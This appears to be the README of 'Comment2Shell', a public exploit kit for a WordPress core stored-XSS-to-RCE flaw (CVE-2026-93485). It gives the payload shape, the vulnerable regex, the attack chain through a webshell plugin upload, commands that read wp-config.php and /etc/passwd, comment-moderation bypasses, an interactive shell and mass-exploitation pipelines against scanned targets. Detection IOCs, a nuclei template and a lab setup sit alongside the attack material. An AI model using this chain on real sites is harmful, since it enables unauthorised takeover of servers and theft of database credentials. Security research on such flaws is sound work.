





# Comment2Shell

Comment2Shell is an end-to-end proof-of-concept for CVE-2026-93485, a
pre-authentication stored XSS in WordPress core `wpautop()` that
escalates to remote code execution inside an administrator session. An
anonymous comment plants the payload; when an admin opens the post, the
browser uploads a webshell plugin, runs a command, and deletes the shell
again. The whole chain is one dependency-free Python file.

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<br>

## What is Comment2Shell?

Comment2Shell is an exploit and local-lab kit for CVE-2026-93485. The bug
lives in `wp-includes/formatting.php`, in the `wpautop()` paragraph filter
that runs at display time on comment text. A newline inside a
`blockquote cite` attribute becomes an HTML comment placeholder; the
regex that wraps blockquotes stops at the first `>` and injects a
paragraph tag into the middle of the attribute, which the browser then
parses as an `onfocus` handler. The `autofocus` attribute fires it
zero-click.

The tool covers the whole chain: a passive version scan, a benign XSS
probe, the full pre-authentication to RCE exploit, an interactive shell,
and a defensive IOC check.

<br>

> The exploit needs no account, no nonce, and no interaction beyond the
> admin viewing the post. Comments only have to be open.

<br>

<p align="center">
  
</p>

## Why this matters

WordPress runs a large share of the web and `wpautop()` is core code, so
the vulnerable filter ships on every affected install regardless of theme
or plugin. The XSS is stored, pre-authentication, and zero-click. Because
it executes in the admin session it is more than a defacement bug: the
admin cookie is enough to install a plugin, and installing a plugin is
arbitrary code execution.

The fix shipped in WordPress 7.1.1 with backports across 25 branches,
down to 4.7.36. Every release from 4.7.0 through 7.1.0 is affected.

<p align="center">
  
</p>

## Demo

<br>

<p align="center">
  
</p>

<br>

Controlled-lab run against WordPress 7.1.0: an anonymous comment plants
the payload, the admin opening the post fires the zero-click chain, the
webshell uploads, the command output returns, and the shell deletes
itself. The browser tab title reports the outcome, either
`Comment2Shell: shell uploaded` or `Comment2Shell: admin login required`.
See [docker/README.md](docker/README.md) for the exact procedure.

## Research contribution

Comment2Shell does not claim discovery of the flaw. It was reported by
Rafie Muhammad (Awesome Motive) through the HackerOne WordPress program
and fixed in 7.1.1. The contribution here is a reproducible,
dependency-free implementation of the full chain:

- the display-time filter conditions that let the payload survive KSES
- an in-browser ZIP builder so the plugin upload needs no external file
- automatic cleanup, where the webshell unlinks itself after the command
- blue-team artifacts: a nuclei template, an IOC script, and log queries

## Attack flow

<p align="center">
  
</p>

<br>

```
1. Anonymous comment submission (no auth, no nonce)
   POST /wp-comments-post.php
   <blockquote cite="a\nb"><code>x" onfocus=... autofocus>
   KSES allows blockquote[cite] and code; the newline in cite survives.

2. Display-time filter chain (the bug)
   wpautop() at formatting.php:563:
     preg_replace('|<p><blockquote([^>]*)>|', '<blockquote$1><p>')
   [^>]* stops at the > inside the <!-- wpnl --> comment,
   so a <p> gets injected inside the cite attribute.

3. wptexturize() seals the attribute (block themes)
   Outer " becomes &#8221; (curly quote).
   The " inside <code> stays straight (no-texturize list).
   The browser then parses onfocus/autofocus as real attributes.

4. Zero-click XSS in the admin session
   autofocus fires onfocus on page load, no click needed.
   JS runs with the admin cookies.

5. Admin session -> plugin upload -> RCE
   GET /wp-admin/plugin-install.php, extract the nonce.
   Build ZIP in memory, POST update.php?action=upload-plugin.
   Webshell lands at wp-content/plugins/<rand>/<rand>.php.
   GET /wp-content/plugins/<rand>/<rand>.php?c=id
```

## Requirements

- Comments open on a published post (default)
- Anonymous commenting allowed (default, `comment_registration=0`)
- A block theme active (default since Twenty Twenty-Two)
- An admin who views the post while logged in
- Python 3.8+ (standard library only)

## Installation

```bash
git clone https://github.com/DeathShotXD/Comment2Shell.git
cd Comment2Shell
python3 comment2shell.py --help
```

No dependencies. Python 3.8+ standard library only, no `pip install`.

## Usage

### Passive version scan

```bash
# Single target
python3 comment2shell.py --scan -t https://target.com

# Batch scan
python3 comment2shell.py --scan -f targets.txt --threads 20

# From a pipeline
subfinder -d targets.txt | httpx -title | \
  grep -i wordpress | python3 comment2shell.py --scan --stdin

# JSON output
python3 comment2shell.py --scan -t https://target.com --json -o results.json
```

### Active XSS probe

```bash
# Submit the benign detection payload (sets document.title)
python3 comment2shell.py --probe -t https://target.com

# With an OAST callback
python3 comment2shell.py --probe -t https://target.com \
  --callback https://your-id.oast.example
```

### Full exploit chain to command execution

> The exploit payload fires `alert("Comment2Shell XSS - CVE-2026-93485")`
> on page load (zero-click via `autofocus`). View the post while logged in
> as admin. The tab title then reads `Comment2Shell: shell uploaded` on
> success, or `Comment2Shell: admin login required` if the browser has no
> admin session.

```bash
# Run a command, then delete the shell
python3 comment2shell.py -t https://target.com -c "id"

# Read wp-config.php
python3 comment2shell.py -t https://target.com -c "cat wp-config.php"

# Wait longer for the admin to view the post (default 45s)
python3 comment2shell.py -t https://target.com -c "id" --wait 60

# Keep the webshell after execution
python3 comment2shell.py -t https://target.com -c "id" --no-cleanup

# With an OAST callback
python3 comment2shell.py -t https://target.com \
  -c "cat /etc/passwd" \
  --callback https://your-id.oast.example

# Known-commenter approval bypass
python3 comment2shell.py -t https://target.com \
  -c "whoami" --known-commenter

# Through a proxy
python3 comment2shell.py -t https://target.com \
  -c "id" --proxy http://127.0.0.1:8080
```

The tool submits the XSS comment, polls the generated webshell path every
3s (up to `--wait` seconds), runs the command once the admin's browser
triggers the upload, then self-deletes the shell (`?d=1` unlinks the PHP
file and removes the plugin directory) so no persistence is left behind.
Pass `--no-cleanup` to keep it, or `--wait 0` to submit the payload only.

### Interactive shell

```bash
# With a known shell path
python3 comment2shell.py --shell -t https://target.com \
  --shell-path ab12cd/ab12cd.php

# Run a single command on an existing shell
python3 comment2shell.py --exec -t https://target.com \
  --shell-path ab12cd/ab12cd.php -c "cat wp-config.php"
```

### IOC check

```bash
python3 comment2shell.py --ioc -t https://target.com
```

## Comment approval bypass

New comments from first-time commenters are usually held for moderation.
The tool has three routes around that:

| Route | Method | Flag |
|-------|--------|------|
| Known commenter | Reuses the default "A WordPress Commenter" `<wapuu@wordpress.example>`, which `check_comment()` auto-approves | `--known-commenter` |
| Moderation off | If `comment_previously_approved=0`, any identity is auto-approved | default |
| Author preview | A prior commenter sees pending comments through the `?unapproved=<id>&moderation-hash=<hash>` cookie | automatic |

> Per Patchstack: *"moderation isn't a security control."*

## Docker lab

Spin up a vulnerable WordPress 7.1.0 for local testing:

```bash
cd docker
docker compose up -d
bash setup.sh
# Target: http://localhost:80  (host networking)
# Admin:  admin / Password123!
# Then:   python3 comment2shell.py -t http://localhost -c "id"
```

Each run submits a new payload comment. Only the first autofocus payload
on the page runs, so the tool detects the live payload and polls its path;
run `bash clean.sh` to clear older comments between runs.

## Detection

### Server-side IoC

```bash
# Suspicious comment submissions (newline in blockquote cite)
grep -rE 'blockquote.*cite=.*\n' /var/www/html/wp-content/ 2>/dev/null

# wp_comments table
mysql -e "SELECT comment_ID, comment_author, LEFT(comment_content,200) \
  FROM wp_comments WHERE comment_content LIKE '%blockquote%cite%\
  onfocus%' ORDER BY comment_date DESC;"

# Recently uploaded single-file plugins
find /var/www/html/wp-content/plugins/ -maxdepth 2 -name "*.php" \
  -newer /var/www/html/wp-config.php -not -path "*/akismet/*" \
  -not -path "*/hello*"
```

### Network IoC

```
# Unusual POST to wp-comments-post.php with blockquote + onfocus
http.request.uri == "/wp-comments-post.php" AND
http.request.body contains "blockquote" AND
http.request.body contains "onfocus" AND
http.request.body contains "autofocus"

# Single-file plugin uploads from non-admin IPs
http.request.uri == "/wp-admin/update.php" AND
http.request.body contains "pluginzip"
```

### Nuclei template

```bash
nuclei -t nuclei/CVE-2026-93485.yaml -u https://target.com
```

### Patch verification

```bash
# Vulnerable (before 7.1.1):
grep -n 'blockquote(\[^>\]\*)' wp-includes/formatting.php
# Should show: |<p><blockquote([^>]*)>|

# Patched (7.1.1+):
grep -n 'blockquote((?:\[^>"'\'')' wp-includes/formatting.php
# Should show: !<p><blockquote((?:[^>"']|"[^"]*"|'[^']*')*)>
```

## Pipeline examples

```bash
# Find WordPress targets -> scan for CVE-2026-93485
subfinder -d program-scope.com -silent | \
  httpx -silent -title | \
  grep -i "wordpress" | \
  python3 comment2shell.py --scan --stdin --threads 20

# Mass exploit with OAST (authorized testing only)
cat vulnerable_targets.txt | \
  python3 comment2shell.py -t - -c "id" \
    --callback https://your-id.oast.example

# Save results as JSON
python3 comment2shell.py --scan -f all_targets.txt \
  --threads 30 -o scan_results.json --json
```

## Technical details

### Root cause

`wp-includes/formatting.php:563` (vulnerable, before 7.1.1):

```php
// VULNERABLE: [^>]* stops at > inside HTML comment placeholder
$text = preg_replace( '|<p><blockquote([^>]*)>|i', '<blockquote$1><p>', $text );

// PATCHED (7.1.1): quote-aware subpattern
$text = preg_replace( '!<p><blockquote((?:[^>"\']|"[^"]*"|\'[^\']*\')*)>!i', '<blockquote$1><p>', $text );
```

### Why KSES doesn't catch it

The payload is benign HTML at save time. `blockquote[cite]` and `code` are
in the comment allowlist (`wp-includes/kses.php:605-633`). The newline is
not in `wp_kses_hair()`'s syntax-char map. The exploit happens at display
time, when the `comment_text` filters transform the stored HTML.

### comment_text filter chain

```php
add_filter( 'comment_text', 'wptexturize' );       // seals the attribute
add_filter( 'comment_text', 'convert_chars' );
add_filter( 'comment_text', 'make_clickable', 9 );
add_filter( 'comment_text', 'force_balance_tags', 25 );
add_filter( 'comment_text', 'convert_smilies', 20 );
add_filter( 'comment_text', 'wpautop', 30 );        // THE BUG
```

## Affected versions

The fix shipped in 7.1.1 across 25 branches. Every release from 4.7.0
through 7.1.0 is affected.

| Branch | Vulnerable <= | Fixed |
|--------|-------------|-------|
| 7.1 | 7.1.0 | **7.1.1** |
| 7.0 | 7.0.4 | 7.0.5 |
| 6.9 | 6.9.7 | 6.9.8 |
| 6.8 | 6.8.8 | 6.8.9 |
| 6.7 | 6.7.7 | 6.7.8 |
| 6.6 | 6.6.7 | 6.6.8 |
| 6.5 | 6.5.10 | 6.5.11 |
| 6.4 | 6.4.10 | 6.4.11 |
| 6.3 | 6.3.10 | 6.3.11 |
| 6.2 | 6.2.11 | 6.2.12 |
| 6.1 | 6.1.12 | 6.1.13 |
| 6.0 | 6.0.14 | 6.0.15 |
| 5.9 | 5.9.16 | 5.9.17 |
| 5.8 | 5.8.15 | 5.8.16 |
| 5.7 | 5.7.17 | 5.7.18 |
| 5.6 | 5.6.19 | 5.6.20 |
| 5.5 | 5.5.20 | 5.5.21 |
| 5.4 | 5.4.21 | 5.4.22 |
| 5.3 | 5.3.23 | 5.3.24 |
| 5.2 | 5.2.26 | 5.2.27 |
| 5.1 | 5.1.24 | 5.1.25 |
| 5.0 | 5.0.27 | 5.0.28 |
| 4.9 | 4.9.31 | 4.9.32 |
| 4.8 | 4.8.30 | 4.8.31 |
| 4.7 | 4.7.35 | 4.7.36 |

## Repository structure

```
Comment2Shell/
|-- comment2shell.py      scan, probe, exploit, shell, IOC check
|-- README.md
|-- PLAN.md               weekly maintenance plan
|-- SECURITY.md           disclosure policy
|-- BROWSER_VALIDATION.md manual browser validation steps
|-- docker/               vulnerable WordPress 7.1.0 lab
|   |-- docker-compose.yml
|   |-- setup.sh
|   |-- clean.sh
|   +-- README.md
|-- nuclei/               detection template
|-- ioc/                  server-side IOC checker
|-- requests/             raw HTTP exploit templates
|-- assets/               banner, logo, demo, animated SVGs
|-- browser_validate.html
|-- xss_validate.html
|-- validate.sh
+-- LICENSE
```

## Limitations

- The XSS path depends on a block theme (`wptexturize` sealing the
  attribute); classic themes may not trigger it.
- The payload must be visible to the admin, so auto-approval or an
  already-approved commenter identity is needed.
- The RCE step requires an admin to actually view the post while logged
  in; without that, only the stored XSS is demonstrated.
- Only the first autofocus payload on a page runs. The tool detects the
  live payload, but stale payload comments should be cleared with
  `docker/clean.sh`.
- The bundled lab is WordPress 7.1.0. Other branches share the vulnerable
  regex but were not all exercised.

## References

- CVE-2026-93485 - https://www.cve.org/CVERecord?id=CVE-2026-93485
- GitHub advisory GHSA-qg7r-fjh2-wvx8 - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-qg7r-fjh2-wvx8
- WordPress 7.1.1 release - https://wordpress.org/news/2026/09/wordpress-7-1-1-maintenance-and-security-release/
- Researcher writeup - https://idnsec.com/research/comment2shell-zero-click-pre-auth-xss-to-rce-in-wordpress-core/
- Patchstack analysis - https://patchstack.com/articles/wordpress-7-1-1-maintenance-and-security-release/
- NVD - https://nvd.nist.gov/vuln/detail/CVE-2026-93485

## Timeline

- 2026-09-08 - reported through the HackerOne WordPress program
- 2026-09-15 - CVE requested from Patchstack
- 2026-09-17 - fixed in WordPress 7.1.1
- 2026-09-18 - CVE-2026-93485 assigned (CVSS 7.1)
- 2026-09-21 - researcher writeup published
- 2026-09-22 - coverage by THN, Orca, and SiteGuarding
- 2026-09-23 - this tool released

<p align="center">
  
</p>

## Responsible use

This project exists for authorized security testing and education. Use it
only against systems you own or have explicit written permission to test.
Unauthorized access to computer systems is illegal in most jurisdictions.
The authors are not responsible for misuse or damage. See [LICENSE](LICENSE).

## Author

0xDeathShotX_X - [github.com/DeathShotXD](https://github.com/DeathShotXD) | [@SyedWaj25802383](https://twitter.com/SyedWaj25802383)
